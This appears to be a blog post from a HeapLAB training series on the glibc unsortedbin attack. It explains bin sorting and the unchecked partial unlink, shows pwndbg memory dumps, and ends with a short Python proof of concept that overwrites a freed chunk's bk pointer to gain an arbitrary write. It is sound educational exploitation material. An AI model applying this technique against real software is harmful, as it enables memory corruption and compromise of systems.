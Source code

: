 ```yaml
---
layout: post
title:  "HeapLAB 1 - Unsortedbin Attack"
date:   2022-12-07 20:02:00 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## Unsortedbin Attack

This attack gives a leak primitive - allows to write the `arena` address to an arbitrary address. 

In case of the `main_arena`, this allows leaking libc. 

Moreover, many techniques uses the `unsortedbin attack` primitive. \
For example, `House of Orange`- which targets `_IO_list_all`, creating a fake file stream on the arena addresses, as well as the `House of Prime`, which uses the primitive to corrupt `global_max_fast`. 

### Chunk Fates

The `free` function may directly populate the `fastbins` (if the chunk size is below `0x80`), the `top_chunk` (if it is adjacent / consolidates with an adjacent chunk), the `unsortedbin` (if its not within the first two options) or the `tcachebin`. 

However, there are two more bins (`smallbins, largebins`) that *arent populated directly by the free() function*.

In fact, chunks may move from the `unsortedbin` to these two bins through a process known as *sorting*. \
This procedure may trigger during calls to `malloc()`!

### Smallbins

Doubly-linked, circular freelists. \
There are 62 smallbins - from size `0x20 to 0x3f0` (overlapping `fastbins` sizes). 

Their methodology is FIFO (like the `unsortedbin`, new chunk registered to the head, allocations are made from tail).

Like the `fastbins`, each bin contains chunks of the same size. 

### Largebins

Doubly-linked, circular freelists. \
However, each bin contains *range of sizes*, instead of a specific size. 

They operate differently, using a `skiplist`. 

### Unsortedbin Scanning

Sorting moves free chunks from the `unsortedbin` into the `small/largebins`. 

Issued once malloc searches an `unsortedbin` while trying to serve a request. 

Note: allocations from the `unsortedbin` are *exact fit*, meaning that by requesting `0x90` size chunk, it will only return `0x90` size chunk - even if larger ones are available. 

During the search for a matching chunk, Malloc sorts the not-adquate chunks from the `unsortedbin` to their respective `smallbin / largebin`. 

For example, requesting chunk `0x90` from the following `unsortedbin` (when the `0x90` bins are empty): `[0x100, 0x90, 0x400, 0x230]`, malloc will start searching the `unsortedbin` from back to front (as allocations are being started from the tail).

It will sort `0x230` to its smallbin, `0x400` to its largebin, and allocate the `0x90` chunk, as it is an exact fit. The chunk `0x100` remaines at the unsortedbin. 

There is exception to the exact-fit - called `last remainder`. 

### Partial Unlink

Note that upon unlinking a chunk from the `unsortedbin` this way, it can actually perform an optimization, called *partial unlink*. \
Because the victim chunk is always the tail of the bin, partially unlinking can be done as follow:

```c
(victim->bk)->fd = unsortedbin_head  // victim removed from the forward list
unsortedbin_head->bk = victim->bk  // victim removed from the backward list
```

Note that the `unsortedbin_head` is an arena address. 

Unlike the unlink macro / partial unlinks from the smallbins, unsortedbin partial unlinks are not subject to any integrity check. 

The idea is to overwrite `victim->bk`, then trigger partial unlink, writing the address of the unsortedbin to any arbitrary address we choose (see the first line of the C code above). 

Recall the `victim->fd` is completely ignored within this partial unlinking, hence it may contain any arbitrary value we wish. 

It is important to concern that that after unlinking the victim chunk, `unsorted_head->bk`, aka the tail of the unsortedbin, is the attacker data. \
It means that after sorting the victim chunk (in case it wasnt an exact fit - hence was moved to a `smallbin` or `largebin`), it will *continue* to search for chunks from this address. \
Therefore, usually it is easier to just perform an exact allocation from the unsortedbin to trigger the unlink. 

### Exploitation

Example of overwriting arbitrary address (the heap first quadword) to the unsortedbin arena address.

Initially, the following arena layout is made:

```bash
pwndbg> dq &main_arena 40
00007fb871b10b20     0000000100000000 0000000000000000
00007fb871b10b30     0000000000000000 0000000000000000
00007fb871b10b40     0000000000000000 0000000000000000
00007fb871b10b50     0000000000000000 0000000000000000
00007fb871b10b60     0000000000000000 0000000000000000
00007fb871b10b70     0000000000000000 0000000000758000
00007fb871b10b80     0000000000000000 00007fb871b10b78
00007fb871b10b90     00007fb871b10b78 00007fb871b10b88
00007fb871b10ba0     00007fb871b10b88 00007fb871b10b98
```

The top chunk ptr is stored at `0x00007fb871b10b78`. \ 
Moreover, the fake unsortedbin head chunk starts at `00007fb871b10b78`. \
Its `PREV_SIZE` field isused as the top chunk ptr, while its `fd` and `bk` ptrs both initially points toward `0x00007fb871b10b78` - the fake chunk itself.  

After executing the unlink:

```bash
pwndbg> vis

0x2205000       0x00007f8abe9b1b78      0x0000000000000091      x...............  <-- unsortedbin[all][0]
0x2205010       0x0000000000000000      0x0000000002204ff0      .........O .....
0x2205020       0x0000000000000000      0x0000000000000000      ................
0x2205030       0x0000000000000000      0x0000000000000000      ................

pwndbg> dq &main_arena 20
00007f8abe9b1b20     0000000100000000 0000000000000000
00007f8abe9b1b30     0000000000000000 0000000000000000
00007f8abe9b1b40     0000000000000000 0000000000000000
00007f8abe9b1b50     0000000000000000 0000000000000000
00007f8abe9b1b60     0000000000000000 0000000000000000
00007f8abe9b1b70     0000000000000000 00000000022050b0
00007f8abe9b1b80     0000000000000000 0000000002205000
00007f8abe9b1b90     0000000002204ff0 00007f8abe9b1b88
00007f8abe9b1ba0     00007f8abe9b1b88 00007f8abe9b1b98
00007f8abe9b1bb0     00007f8abe9b1b98 00007f8abe9b1ba8
```

It means that the first heap quadword was overwritten with the value of the unsortedbin fake chunk, that starts at `0x00007f8abe9b1b78`. 

The fake unsortedbin head chunk's `fd` has changed to `0x2205000`, and its `bk` has changed to `0x2204ff0`. \
This is due to the partial unlink, as I chose `victim->bk = heap - 16`). \
Note that the fake chunk `fd` was changed only because the length of the linked list was 1. \
In case there were more elements within the unsortedbin, its `fd` would remain being pointed to them. 

POC:

```python
# Request 2 chunks.
chunk_A = malloc(0x88)
# Guards against consolidation with the top chunk
chunk_B = malloc(0x18)

# Free "chunk_A".
free(chunk_A)

# Overwrite the bk of the unsorted victim chunk
new_bk = heap - 0x10
edit(chunk_A, p64(0) + p64(new_bk))

# Trigger the unsorted chunk unlink by allocating it
malloc(0x88)
```

